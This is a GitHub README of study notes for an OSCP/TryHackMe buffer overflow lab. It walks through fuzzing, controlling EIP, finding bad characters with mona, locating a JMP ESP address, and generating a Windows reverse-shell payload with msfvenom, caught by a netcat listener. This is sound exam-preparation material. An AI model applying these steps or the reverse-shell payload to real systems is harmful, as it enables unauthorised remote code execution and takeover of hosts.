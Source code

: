 # oscp_bof-prep
Buffer Overflow preparation for OSCP

# Fuzzing
1. Run fuzzer.py & make a note of the largest number of bytes that were sent
   * Crashed at 2000 bytes

# Crash replication & Controlling EIP
1. Generate a cyclic pattern of a length 400 bytes longer than the string that crashed the server (2000 + 400)
   * ./pattern_create.rb -l 2400

2. Copy the output and place it into the payload var of exploit.py
3. Restart the app in Immunity Debugger & Run exploit.py
4. While the unique buffer is on the stack, use mona's findmsp command with the distance arg. set to the pattern length (2400)
   * !mona findmsp -distance 2400


5. Set the offset var to this value in exploit.py(1978)
6. Set the payload var to an empty string
7. Set the retn var to “BBBB”
8. Restart the app in Immunity & Run exploit.py (EIP should be overwritten with 4 B's (e.g 42424242)


# Finding Bad Characters
1. Generate a bytearray with mona (& exclude null byte \x00 by default), note the location of bytearray.bin
   * !mona bytearray -b “\x00”
3. Generate an identical bytearray with bytearray.py
4. Update exploit.py and set the payload var to the string of badchars the script generates
5. Restart the app in Immunity & Run exploit.py, make note of the address to which ESP register points
   * !mona compare -f C:\mona\oscp\bytearray.bin -a [ESP]

5. Generate a new bytearray with mona, specifying the found badchars along with \x00 & Update payload var in exploit.py and remove the new badchars as well
   * !mona bytearray -b “\x00\x07\x08\x2e\x2f\xa0\xa1”
6. Restart app & Run exploit
7. Do this until results status returns “Unmodified”. This indicates that no more badchars exist.


# Finding a Jump Point
1. Run the following mona command with all the identified badchars (including \x00)
   * !mona jmp -r esp -cpb “\x00\x07\x08\x2e\x2f\xa0\xa1”


2. Choose an address and update exploit.py, setting the retn var to the address, written backwards (little endian).
   1) \x62\x50\x11\xaf -> \xaf\x11\x50\x62

# Generate Payload
1. msfvenom (LHOST=kali_vpn_ip, -b with all the identified badchars)
   * msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
2. Update payload var in exploit.py

# Prepend NOPs
1. padding = “\x90” * 16

# Exploit
1. start netcat listener on attacker machine (nc -nlvp 4444)
2. Restart app in immunity & Run exploit.py

# Reference
* https://tryhackme.com/room/bufferoverflowprep
* https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst